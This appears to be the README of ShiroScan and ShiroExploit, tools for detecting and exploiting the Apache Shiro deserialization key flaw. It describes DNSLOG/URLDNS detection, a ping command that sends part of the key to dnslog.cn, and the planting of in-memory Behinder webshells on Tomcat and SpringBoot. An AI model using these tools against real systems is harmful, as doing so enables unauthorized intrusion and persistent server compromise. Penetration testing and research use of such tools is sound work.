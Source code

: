 ## Shiro反序列化检测工具

**ShiroScan**用于检测存在Shiro反序列化漏洞的key值。有三种方式进行检测，第一种是利用URLDNS进行检测，第二种利用命令执行进行检测，第三种使用`SimplePrincipalCollection`序列化后进行检测（XCheck，即Xray Check）。

![](images/07.png)

### 功能简介

- 默认DNSLOG

选择后会调用`dnslog.cn`的接口，生成一个域名，进行检测后，结果会输出在结果区域。

> 选择该选项时，会有卡顿，正在从`dnslog.cn`获取域名，并显示。

- 自定义DNSLOG

需要自己输入一个dnslog地址，进行检测后去输入的dnslog平台去查看结果

- 使用URLDNS

利用URLDNS进行检测。

参考：https://github.com/LuckyC4t/shiro-urldns/blob/master/src/main/java/luckycat/shirourldns/URLDNS.java

- 使用payloads

通过执行`ping`命令来检测。

- 使用XCheck

通过使用`SimplePrincipalCollection`序列化来进行检测，key正确情况下不返回 **deleteMe** ，key错误情况下返回 **deleteMe** 。

参考：https://mp.weixin.qq.com/s/do88_4Td1CSeKLmFqhGCuQ

### 使用

1.自行打包使用

```bash
git clone https://github.com/fupinglee/ShiroScan
cd ShiroScan
mvn clean package -DskipTests=true
```

打开target下的jar文件即可执行

2.直接下载使用

https://github.com/fupinglee/ShiroScan/releases

### 运行效果

- 使用`默认DNSLOG+URLDNS`进行检测

![使用默认DNSLOG1](images/02.png)

- 使用`自定义DNSLOG+URLDNS`进行检测

![使用自定义DNSLOG1](images/03.png)

- 使用`默认DNSLOG+Payloads`检测


![使用默认DNSLOG2](images/04.png)

> 这里使用的命令是`ping key.substring(0,3)+"."+payload+"."+"dnslog.cn"`

- 使用`自定义DNSLOG+Payloads`检测


![使用自定义DNSLOG2](images/05.png)

- 使用XCheck进行检测

![使用自定义XCheck](images/06.png)



# Shiro反序列化回显工具

### 简介

**ShiroExploit**是Shiro反序列化检测与回显利用工具，ShiroScan是从其中剥离出来的。当前版本v2.3。

https://github.com/fupinglee/JavaTools/tree/master/Shiro#v23

- 支持Tomcat7、8、9下CMD内存shell的写入与卸载，支持Tomcat6、7、8、9下的通用回显。
- 支持Tomcat7、8、9以及SpringBoot下冰蝎内存shell的写入与卸载。

### 使用

直接下载使用

1.https://github.com/fupinglee/ShiroScan/releases/tag/v1.1 选择v2.3版本

2.https://github.com/fupinglee/JavaTools/tree/master/Shiro#v23

### 运行效果

#### **1.回显**

![](images/Shiro回显.png)



#### **2.内存Shell**





![](images/10.png)

使用正确的密码，会执行命令，错误的密码返回正常页面。

![](images/11.png)



**SpringBoot环境下写入冰蝎Shell**

![ShiroExploit](images/21.png)

**使用蚁剑连接**

![ShiroExploit](images/24.png)



更多使用说明参考:https://github.com/fupinglee/ShiroScan/blob/master/使用说明-v2.3.pdf

> **使用时需要先确定Key和所使用的Gadget，然后加载内存shell。**



## 参考

https://github.com/wh1t3p1g/ysoserial

https://github.com/frohoff/ysoserial

https://github.com/LuckyC4t/shiro-urldns/blob/master/src/main/java/luckycat/shirourldns/URLDNS.java

https://mp.weixin.qq.com/s/do88_4Td1CSeKLmFqhGCuQ

https://github.com/zema1/ysoserial/[通用回显]

## 其他

**仅供安全人员进行有授权的验证,勿用于非法测试**

